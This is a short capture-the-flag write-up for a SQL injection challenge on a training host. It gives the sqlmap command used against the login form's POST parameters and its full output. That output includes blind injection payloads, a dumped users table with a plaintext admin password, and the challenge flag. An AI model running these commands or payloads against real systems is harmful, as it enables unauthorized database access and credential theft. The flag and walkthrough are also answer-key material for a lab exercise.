 # SQLI 101
Used sqlmap to bruteforce it using username and password parameters   
```sqlmap -u http://chal4.hackademy.ctf --data "password=admin&username=admin" -p "password,username" --method POST --current-db --dump --technique=BEUSTQ```      
``FLAG-VTjo1lpqGRcHdtD5r02e73Dq4jrnusXn``

Here's what happened:
```
> sqlmap -u http://chal4.hackademy.ctf --data "password=admin&username=admin" -p "password,username" --method POST --current-db --dump --technique=BEUSTQ
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.8.9#stable}
|_ -| . ["]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:48:03 /2025-05-16/

[21:48:03] [INFO] resuming back-end DBMS 'sqlite' 
[21:48:03] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: password=admin&username=admin' AND 7771=7771 AND 'RHRM'='RHRM

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: password=admin&username=admin' AND 8747=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))) AND 'cDjI'='cDjI
---
[21:48:03] [INFO] the back-end DBMS is SQLite
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: SQLite
[21:48:03] [WARNING] on SQLite it is not possible to get name of the current database
[21:48:03] [INFO] fetching tables for database: 'SQLite_masterdb'
[21:48:03] [INFO] fetching number of tables for database 'SQLite_masterdb'
[21:48:03] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[21:48:03] [INFO] retrieved: 2
[21:48:04] [INFO] retrieved: fl4G_1s_H3re
[21:48:06] [INFO] retrieved: users
[21:48:07] [INFO] retrieved: CREATE TABLE users (id INTEGER PRIMARY KEY, username TEXT NOT NULL UNIQUE, password TEXT NOT NULL)
[21:48:18] [INFO] fetching entries for table 'users'
[21:48:18] [INFO] fetching number of entries for table 'users' in database 'SQLite_masterdb'
[21:48:18] [INFO] retrieved: 1
[21:48:18] [INFO] retrieved: 1
[21:48:19] [INFO] retrieved: FLABbergasted!
[21:48:20] [INFO] retrieved: admin
Database: <current>
Table: users
[1 entry]
+----+----------------+----------+
| id | password       | username |
+----+----------------+----------+
| 1  | FLABbergasted! | admin    |
+----+----------------+----------+

[21:48:21] [INFO] table 'SQLite_masterdb.users' dumped to CSV file '/home/jaycee/.local/share/sqlmap/output/chal4.hackademy.ctf/dump/SQLite_masterdb/users.csv'
[21:48:21] [INFO] retrieved: CREATE TABLE fl4G_1s_H3re (apprentice_flag TEXT NOT NULL)
[21:48:27] [INFO] fetching entries for table 'fl4G_1s_H3re'
[21:48:27] [INFO] fetching number of entries for table 'fl4G_1s_H3re' in database 'SQLite_masterdb'
[21:48:27] [INFO] retrieved: 1
[21:48:27] [INFO] retrieved: FLAG-VTjo1lpqGRcHdtD5r02e73Dq4jrnusXn (1/2). If you don't already have, try to bypass the login ^C
[21:48:39] [WARNING] Ctrl+C detected in dumping phase                                                         
Database: <current>
Table: fl4G_1s_H3re
[0 entries]
+-----------------+
| apprentice_flag |
+-----------------+
+-----------------+

[21:48:39] [INFO] table 'SQLite_masterdb.fl4G_1s_H3re' dumped to CSV file '/home/jaycee/.local/share/sqlmap/output/chal4.hackademy.ctf/dump/SQLite_masterdb/fl4G_1s_H3re.csv'
[21:48:39] [INFO] fetched data logged to text files under '/home/jaycee/.local/share/sqlmap/output/chal4.hackademy.ctf'
[21:48:39] [WARNING] your sqlmap version is outdated

[*] ending @ 21:48:39 /2025-05-16/
```
